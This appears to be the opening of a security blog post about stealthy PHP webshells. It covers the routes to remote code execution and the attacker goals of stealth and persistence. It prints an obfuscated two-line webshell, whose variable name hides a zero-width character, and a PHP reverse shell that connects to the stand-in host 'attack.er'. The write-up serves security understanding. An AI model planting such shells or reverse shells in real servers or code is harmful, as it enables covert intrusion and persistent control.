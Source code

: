 ```yaml
---
layout: posts
title:  Hidden in plain sight
date:   2023-10-31
categories: stuff
---
```


_A few thoughts about PHP webshells ..._

Do you think such a piece of code could be harmful ?

```php
list($x, $x‍) = $_POST;
$x($x‍);
```

If no, please continue reading ...

# Intro

Although it is fun to find tricky client-side injections, path traversals or IDORs in web applications, it is generally much more satisfying to gain arbitrary code execution (or even better, a command execution). Therefore, arbitrary code execution (or generally referred to as RCE - Remote Code Execution) is not a vulnerability _per se_, but is the attack resulting from an exploited vulnerability (or a chain of vulnerabilities). Multiple vulnerabilities are known to potentially be the root cause of an RCE, such as (and not limited to):
* Local File Inclusion, for which an attacker includes a data stream so as to evaluate it ;
* SQL injection, if the DBMS capabilities allow it, and if the abused service account is privileged enough (local file writes, `xp_cmd_shell`, `COPY ... FROM PROGRAM`, etc.) ;
* Unrestricted File Upload / Arbitrary File Write, for which an attacker can drop their own scripts on the server, and is able to make the latter execute them ;
* Unsafe Deserialisation, for which an attacker creates arbitrary objects, and possibly calls arbitrary routines ;
* Commands Injection, for which an attacker includes their own commands into a legitimate one ;

However, gaining an arbitrary code execution is not always an immediate _game over_, because:
* Turning the code execution into command execution might be sometimes tricky ;
* The attacker generally wants to be the only one controlling the target, and wants to prevent the server from being compromised by someone else ;
* An antimalware solution might be triggered by obvious payloads, that could also warn the webmaster ;
* This same webmaster, while doing their daily routine, might be triggered by unexpected artefacts (e.g. files, logs) ;
* Ensuring persistence is also a commonly pursued goal, saving the need of a future re-exploitation ;

Being stealth and efficient at the same time might be challenging. As a first common approach, attackers could leave powerful webshells somewhere on the disk, at an unexpected location where it is unlikely that a webmaster finds them. A second common solution would be to open a reverse shell, if possible, with something like:

```php
$sock = fsockopen("attack.er",1234);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
```
